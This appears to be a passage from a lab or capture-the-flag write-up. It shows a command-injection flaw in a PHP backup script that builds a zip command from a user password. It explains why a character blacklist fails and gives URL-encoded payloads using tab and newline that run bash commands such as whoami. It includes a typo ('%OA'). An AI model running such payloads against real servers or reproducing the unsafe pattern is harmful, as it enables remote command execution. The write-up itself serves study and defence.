 ```shell
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```
######  Why it works:
- it concatenates user input (`$password`) into a shell command without proper escaping or sanitization.
- Their is an attempt to filter certain characters (`;`, `&`, `|`, etc.) in `cleanEntry()`, but this blacklist approach is **incomplete** and **can be bypassed** using URL encoding, null bytes, tabs, newlines, or command substitution.
###### Why also `cleanEntry()` is not enough:

```shell
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```
- This function only checks for a **limited set of characters** using `strpos()`, which:
    - Does not catch characters like tabs (`\t`), newlines (`\n`), or URL-encoded input.
    - Can be bypassed with payloads that do not use the exact characters in your blacklist.
Bottom line Blacklisting is never a reliable way to sanitize shell arguments.

#### Command injection: testing

by trial and error, i concluded in this command injection type using url encoding:
`%09` -> tab (because %20 for space did not work)
`%OA` -> newline

below some examples of command injection being possible:
```shell
%0Abash%09-c%09"whoami"%0A
```
![Pasted image 20250527204845](MediaFiles/Pasted%20image%2020250527204845.png)
```shell
%0Abash%09-c%09"dir"%0A
```